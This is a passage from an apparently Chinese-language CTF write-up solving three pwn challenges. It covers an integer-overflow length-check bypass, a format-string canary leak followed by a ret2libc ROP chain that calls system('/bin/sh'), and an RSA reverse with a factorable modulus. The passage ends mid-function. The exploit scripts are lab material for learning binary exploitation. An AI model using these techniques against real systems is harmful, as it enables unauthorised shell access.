 ### babystack2

本题在 babystack 的基础上，限制了输入的长度：

```c
if ((signed int)nbytes > 10 )
  {
    puts("Oops,u name is too long!");
    exit(-1);
  }
```

注意到这里仅仅判断了大于，而且会强制类型转换为有符号数，而原来的 `nbytes` 是无符号的，因此可以整数溢出绕过。

```python
sla('name:\n','-1')
payload = flat('a'*0x18,elf.sym['backdoor'])
sla('name?\n', payload)
```

### babyrop2

本题在 babyrop 的基础上增加了 canary，那么泄露 canary 即可。要做到这一点，无疑需要新增函数 `gift` 的帮助。在该函数中明显存在一个格式化字符串漏洞。

通过反复 `%2$p`，`%3$p` 可知 canary 在第 7 个，这可以通过其长度 8 字节以及末尾的 `00` 字节判断。然后从汇编中可知 canary 位于 `ebp-0x10` 处，填入适当位置即可。

```python
sla('u!\n','%7$p')
ru('0x')
canary = int(r(16),16)
leak('canary', canary)
pop_rdi = 0x400993
payload = flat('a'*0x18,canary,'a'*8,pop_rdi,elf.got['read'],elf.plt['puts'],elf.sym['vuln'])
ru('story!\n')
sl(payload)
read = uu64(r(6))
leak('read',read)
system,binsh = ret2libc(read,'read')
payload = flat('a'*0x18,canary,'a'*8,pop_rdi,binsh,system,'a'*8)
sla('story!\n',payload)
```

### encrypted_stack

逆向题，`sub_400a70` 处存在求逆元函数，说明题目可能使用了 RSA 加密，我们的任务就是找到私钥然后对题目产生的随机数进行解密，循环 20 次后即可通过验证，最后 ret2libc。在 `main` 中可以发现如下语句：

```c
v7 = qword_602098;
v8 = qword_602090;
```

猜测是 RSA 的 e 和 N，查看后发现 `e=0x10001, N=0x150013E8C603B57`。这个 N 显然容易分解，从而得到私钥。

```python
N = 94576960329497431
d = 26375682325297625

def powmod(a, b, m):
    if a == 0:
        return 0
    if b == 0:
        return 1
    res = powmod(a,b//2,m)
    res *= res
    res %= m
    if b&1:
        res *= a
```